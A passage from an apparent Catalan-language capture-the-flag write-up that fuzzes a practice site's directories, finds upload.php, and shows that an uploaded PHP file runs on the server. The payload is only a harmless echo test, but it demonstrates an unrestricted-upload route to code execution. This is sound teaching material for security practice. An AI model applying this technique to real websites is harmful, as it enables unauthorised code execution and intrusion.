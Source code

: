 Ràpidament hem trobat els arxius que ja coneixiem, i un de nou, `logout.php`.

```
Target: http://hackmeifyoucan.com/FUZZ
Total requests: 5163

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000029:   200        437 L    857 W      9785 Ch     "login.php"
000000002:   200        169 L    346 W      3836 Ch     "index.php"
000000077:   200        76 L     158 W      1508 Ch     "upload.php"
000000172:   302        11 L     47 W       480 Ch      "logout.php"
```

Segurament deu ser el que es crida en tancar sessió, però tampoc hi tenim accés (de moment >:D).

## Explotació d'`upload.php`
De moment els escanejos d'arxius han estat bastant inútils, però tampoc han estat de més. Anem a pel que crec q hauriem d'haver començat: **explotar el sistema de pujada de fitxers**.

Quan pengem un fitxer, aquest és llegit pel sistema i el penja a la ruta `/uploads/ARXIU`.

Què passaria si li pengem un arxiu amb codi PHP? Intentem-ho.

**echo.php**:
```php
<?php echo "XAAAAATOOOOO"; ?>
```

Sembla que ha funcionat. Ens deixa executar el fitxer.

![echo.php](./img/echo.png)
